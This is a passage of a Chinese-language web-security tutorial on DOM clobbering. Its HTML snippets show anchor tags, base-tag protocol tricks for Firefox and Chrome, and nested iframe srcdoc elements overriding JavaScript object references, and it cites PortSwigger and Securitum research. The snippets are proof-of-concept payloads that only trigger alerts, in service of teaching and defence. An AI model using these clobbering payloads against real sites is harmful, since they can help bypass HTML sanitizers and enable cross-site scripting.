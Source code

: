 需要注意一点，如果依赖于`<a>`标签的`toString`函数将dom对象转换为字符串，获取的字符串总是经过url编码的，例如下面这样：

```html
    <a id=x href="http:<>">
        <script>
        alert(x) //http://myip:8888/%3C%3E
        </script>
```

此时可以利用一些根本不存在的协议来绕过：

```html
    <a id=x href="abc:<>">
        <script>
        alert(x)//abc:<>
        </script>
```

Firefox浏览器允许在base标签中定义协议，然后在a标签中使用，能够获取到未经过urlencode的数据

```html
    <base href=a:abc><a id=x href="Firefox<>">
        <script>
        alert(x)//Firefox<>
        </script>
```

chrome浏览器也可以实现类似的效果，但是获取的值在base标签的href属性中。

```html
<base href="a://Clobbered<>"><a id=x name=x><a id=x name=xyz href=123>
<script>
alert(x.xyz)//a://Clobbered<>
</script>
```

### 0x4 获取三级以上的对象引用

使用iframe的srcdoc属性可以创建任意层数的对象引用。

```html
<iframe name=a srcdoc="
<iframe srcdoc='<a id=c name=d href=cid:Clobbered>test</a><a id=c>' name=b>"></iframe>
<script>setTimeout(()=>alert(a.b.c.d),500)</script>
```

当时上面有一个问题，就是必须使用`setTimeout`设置一个延迟以保证iframe加载完毕。这里好的办法是利用style/link标签导入一个外部的样式表来创造一个小的延迟：

```html
<iframe name=a srcdoc="
<iframe srcdoc='<a id=c name=d href=cid:Clobbered>test</a><a id=c>' name=b>"></iframe>
<style>@import '//portswigger.net';</style>
<script>
alert(a.b.c.d)
</script>
```

#### 参考链接

[https://research.securitum.com/xss-in-amp4email-dom-clobbering/](https://research.securitum.com/xss-in-amp4email-dom-clobbering/)

[https://portswigger.net/research/dom-clobbering-strikes-back](https://portswigger.net/research/dom-clobbering-strikes-back)
